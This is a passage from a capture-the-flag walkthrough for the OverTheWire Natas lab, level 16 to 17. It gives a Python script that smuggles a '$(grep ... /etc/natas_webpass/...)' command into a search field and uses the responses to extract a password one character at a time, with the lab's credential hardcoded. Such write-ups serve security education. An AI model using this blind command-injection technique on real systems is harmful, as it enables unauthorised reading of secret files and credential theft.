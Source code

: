 Output if No: needled

```python
import urllib.request

from string import ascii_letters, digits
from urllib.request import HTTPBasicAuthHandler, HTTPPasswordMgrWithDefaultRealm
from time import sleep

CHARS=ascii_letters + digits

URI='http://natas16.natas.labs.overthewire.org/'

auth_handler = HTTPBasicAuthHandler(HTTPPasswordMgrWithDefaultRealm())
auth_handler.add_password(
	realm=None,
	uri=URI,
	user='natas16',
	passwd='WaIHEacj63wnNIBROHeqi3p9t0m5nhmh')
opener = urllib.request.build_opener(auth_handler)

def request(term):
	answer = "needled"
	query = f'$(grep {term} /etc/natas_webpass/natas17)'
	data = urllib.parse.urlencode({ 'needle': f'{answer}{query}' })
	data = data.encode('ascii')
	req = urllib.request.Request(url=URI, data=data, method='POST')
	with opener.open(req) as f:
		res = f.read().decode('utf-8')
		return c if not answer in res.lower() else None

filtered=''
for c in CHARS:
	result = request(c)
	if not result is None:
		filtered = filtered + c
		print(filtered)

found = ''
password=''
while password == '' or not found == '':
	found = ''
	for c in filtered:
		result = request('^' + password + c)
		if not result is None:
			found = result
			break
	password = password + found
	print(password)
```

## Level 17 -> 18
